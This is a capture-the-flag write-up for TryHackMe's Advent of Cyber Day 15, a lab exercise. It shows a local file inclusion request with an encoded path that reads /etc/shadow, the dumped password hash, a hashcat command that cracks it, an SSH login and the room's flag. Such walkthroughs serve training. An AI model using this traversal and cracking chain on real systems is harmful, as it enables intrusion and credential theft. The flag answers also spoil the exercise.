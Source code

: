 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 15
### References
* Spring, B. (2019, December 14). Local File Inclusion. TryHackMe Blog. https://blog.tryhackme.com/lfi/
## Reconnaissance
```bash
$ sudo nmap -sV -sC -vv 10.10.129.142
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9a:03:45:f5:5d:44:d3:18:82:6b:e7:4a:bd:30:ad:58 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDJZRhGza0LfrMtyxnABnZY4ZUVbKfUb4HZO5rJTeR9tzCn0rFswbrQC1MtvB1Imi55zx3LPjc1WBRhpJ3IGdkdcAEfO1UTzCSkaI+gVa4J+/oFmhSg3xchG8/qE1QufncW9LnEKpUP9EM/CxSvCRpLbDAtVQdTjhYfJMK78ixiYHhAsrbw1crkhZyvYBo19y61EDoiL8ZNTkgFx4SrqlJIfcsAxLgat9a8Bf2jXacbuqv0R7vM3sVEQvgrEK7SqwSKgcxutVOs2gkPgsKL6vMtsytYCMdDnibVViEioli8KgBTkYjqKTXkzaGbeno2w0yDJbt6syJjOexzl7j96TMj
|   256 1e:b5:f5:d0:8b:da:82:3c:f8:aa:04:83:90:0a:5d:c2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJdNinV/k0bYfSVBBs1LZX3L9iYv/axqqX+M/AW20YrY7jl5oMA8g3QiSzsL021jURX5d7FIoIg/TrGvBZtjQdQ=
|   256 64:5c:b2:04:60:af:63:e7:52:7b:f5:e3:30:05:7e:11 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDSuT1x7x4fxAHZjoBkQ9LBWvL6HkoL9LZY/iAc7RRCd
80/tcp open  http    syn-ack ttl 61 Node.js (Express middleware)
|_http-favicon: Unknown favicon MD5: DBC69DB56435575CDC5CF45C96045958
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Public Notes
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## What is Charlie going to book a holiday to?
* From the website's homepage:
> ### Note 3
> #### To do list:
> * Take Santa sleigh in for an MOT
> * Improve security on file inclusion
> * Go food shopping
> * Book holiday to Hawaii

**Answer**: `Hawaii`
## Read `/etc/shadow` and crack Charlie's password.
1. With Burpsuit, proxy the website and look for a request to the `/notes/note1.txt` file (file system path `/` are encoded to `%2f` in URLs):
```http
GET /get-file/views%2fnotes%2fnote1.txt HTTP/1.1
Host: 10.10.210.111
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://10.10.210.111/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```
2. Modify the request path to point to `/etc/shadow`:
```http
GET /get-file/%2fetc%2fshadow HTTP/1.1
Host: 10.10.210.111
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://10.10.210.111/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```
3. `/etc/shadow`'s contents will be rendered on the webpage:
```
root:*:18152:0:99999:7:::
daemon:*:18152:0:99999:7:::
bin:*:18152:0:99999:7:::
sys:*:18152:0:99999:7:::
sync:*:18152:0:99999:7:::
games:*:18152:0:99999:7:::
man:*:18152:0:99999:7:::
lp:*:18152:0:99999:7:::
mail:*:18152:0:99999:7:::
news:*:18152:0:99999:7:::
uucp:*:18152:0:99999:7:::
proxy:*:18152:0:99999:7:::
www-data:*:18152:0:99999:7:::
backup:*:18152:0:99999:7:::
list:*:18152:0:99999:7:::
irc:*:18152:0:99999:7:::
gnats:*:18152:0:99999:7:::
nobody:*:18152:0:99999:7:::
systemd-timesync:*:18152:0:99999:7:::
systemd-network:*:18152:0:99999:7:::
systemd-resolve:*:18152:0:99999:7:::
systemd-bus-proxy:*:18152:0:99999:7:::
syslog:*:18152:0:99999:7:::
_apt:*:18152:0:99999:7:::
lxd:*:18152:0:99999:7:::
messagebus:*:18152:0:99999:7:::
uuidd:*:18152:0:99999:7:::
dnsmasq:*:18152:0:99999:7:::
sshd:*:18152:0:99999:7:::
pollinate:*:18152:0:99999:7:::
ubuntu:!:18243:0:99999:7:::
charlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::
```
4. Use `hashcat` to crack Charlie's password:
```bash
$ hashcat -a 0 -m 1800 '$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.' rockyou.txt
$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:password1

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0K...GOyhL.
Time.Started.....: Wed Jun 30 12:00:11 2021 (3 secs)
Time.Estimated...: Wed Jun 30 12:00:14 2021 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:     1098 H/s (7.32ms) @ Accel:8 Loops:16 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#2....: 123456 -> dangerous
```

**Answer**: `password1`
## What is `flag1.txt`?
* Connect to Charlie's server with SSH using the previously found credentials:
```bash
$ ssh charlie@10.10.210.111
charlie@10.10.210.111's password: password1
charlie@ip-10-10-210-111:~$ ls
flag1.txt
charlie@ip-10-10-210-111:~$ cat flag1.txt 
THM{4ea2adf842713ad3ce0c1f05ef12256d}
```
**Flag**: `THM{4ea2adf842713ad3ce0c1f05ef12256d}`